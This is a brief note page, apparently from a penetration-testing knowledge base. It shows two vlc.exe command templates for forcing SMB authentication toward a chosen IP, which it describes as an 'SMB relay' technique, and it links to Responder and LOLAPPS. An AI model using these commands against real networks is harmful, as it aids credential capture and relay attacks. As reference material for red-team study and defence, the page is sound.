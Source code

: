 # VLC

Execute command to perform SMB relay.

```
C:\> vlc.exe -q -I smb --smb-user <username> --smb-pwd <password> --smb-domain <domain>

C:\> vlc.exe -q smb://<username>:<password>@<IP>
```

---
## References

- [[02 - Responder|Responder]]

-  [LOLAPPS (Living Off The Land Applications)](https://lolapps-project.github.io/)